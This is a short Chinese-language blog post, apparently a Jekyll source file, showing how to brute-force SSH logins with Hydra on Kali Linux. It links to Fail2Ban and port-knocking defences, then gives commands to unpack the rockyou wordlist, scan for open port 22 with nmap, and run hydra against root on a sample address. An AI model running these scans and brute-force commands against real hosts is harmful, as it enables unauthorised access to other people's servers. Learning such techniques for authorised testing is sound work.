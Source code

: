 ```yaml
---
layout: post
title: 使用Hydra破解ssh密码
---
```


Hydra是非常高效的网络登录破解器，它可以对多种服务程序执行[暴力破解](http://topspeedsnail.com/hack-brute-force/)（SSH、VNC等等）。

防止这种攻击其实很容易，方法很多。以SSH为例：

* [Ubuntu：使用Port Knocking隐藏SSH端口](http://blog.topspeedsnail.com/archives/3936)
* [在Ubuntu中用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/262)
* [CentOS 7安装使用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/3119)
* [Debian使用Fail2Ban和Tinyhoneypot增加网络安全](http://blog.topspeedsnail.com/archives/3667)

*****

Kail Linux有一个的GUI版本：xhydra，也有一个命令行版本：hydra。

xhydra：

![xhydra]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-16 10-26-48.png)

hydra：

![hydra]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-16 10-28-41.png)

我使用命令行版本：hydra

### 字典

这种攻击需要字典文件，一个好的字典至关重要。我以Kali Linux自带的rockyou字典为例，位于/user/share/wordlists/rockyou.txt.gz。使用前先解压：

{% highlight shell %}
# gzip -d /usr/share/wordlists/rockyou.txt.gz
{% endhighlight %}

### 使用nmap扫描开启SSH服务的主机

扫描SSH服务使用的22端口，确定可以施行破解的主机。

{% highlight shell %}
＃ nmap -p 22 -open -sV one_IP_or_range_or_subnet > MyTarget
{% endhighlight %}

### 使用hydra暴力破解

{% highlight shell %}
# hydra -s 22 -v -l root -P /usr/share/wordlists/rockyou.txt 192.168.0.108 ssh
{% endhighlight %}

更多选项，查看man hydra。